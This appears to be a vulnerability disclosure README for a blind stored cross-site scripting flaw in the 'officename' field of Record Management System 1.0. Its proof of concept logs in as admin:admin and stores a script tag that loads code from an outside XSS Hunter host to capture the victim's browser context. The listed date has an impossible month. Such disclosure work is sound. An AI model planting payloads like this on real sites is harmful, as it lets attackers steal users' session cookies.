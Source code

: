 # Record_Management_System-Blind_Cross_Site_Scripting-1
+ **Exploit Title:** Record_Management_System-Blind_Cross_Site_Scripting-1
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/record-management-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/RECORD_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-

## References: 

## Description:
Record Management System 1.0 allows Blind Cross-Site Scripting via parameter 'officename' in "/recordmanagement/main/offices.php". Record Management System is vulnerable to a blind cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data.
An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Go to the login panel: "http://localhost/recordmanagement/"
+ Login with `admin`:`admin`
+ Go to the Offices: "http://localhost/recordmanagement/main/offices.php"
+ Then go to the xsshunter app on https://xsshunter.trufflesecurity.com and login.
+ XSS PAYLOADS -> Copy Payload "Basic <script> Tag Payload"
+ Add Office and Name with payload `"><script src="https://js.rip/b23tmbxf49"></script>`
+ Save and then go to XSS PAYLOAD FIRES on the xsshunter.
+ Check Reports.
![3-1](https://github.com/h4md153v63n/CVEs/assets/5091265/1a7010d1-375b-4057-887c-f5b77d7b7fc8)
![3-2](https://github.com/h4md153v63n/CVEs/assets/5091265/8ef95f72-c0e4-4dfe-9888-019f74f761a2)
![3-3](https://github.com/h4md153v63n/CVEs/assets/5091265/b83ac262-e5b3-4767-931d-06c5baf08efe)
![3-4](https://github.com/h4md153v63n/CVEs/assets/5091265/92faa150-3a3c-47c1-a053-033cd70782b6)
![3-5](https://github.com/h4md153v63n/CVEs/assets/5091265/0546b16c-44bf-461a-afb0-b128ccde253c)
![3-6](https://github.com/h4md153v63n/CVEs/assets/5091265/5110ae7e-b43d-4a1a-a962-84f5c32d6999)
